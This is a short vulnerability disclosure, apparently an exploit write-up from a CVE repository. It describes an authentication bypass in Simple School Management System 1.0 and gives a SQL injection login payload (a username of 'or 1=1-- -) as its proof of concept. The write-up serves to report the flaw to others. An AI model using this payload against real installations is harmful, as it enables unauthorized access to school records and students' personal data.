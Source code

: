 # Simple School Managment System - Authentication Bypass
+ **Exploit Title:** Simple School Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/". 

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 123439](https://github.com/tubakvgc/CVEs/assets/74067343/376ef47a-ac0a-49a2-b5db-e448ae3b3262)

![Ekran görüntüsü 2024-02-01 123556](https://github.com/tubakvgc/CVEs/assets/74067343/6b76c3ee-6c53-4634-8321-37fa68bd3331)

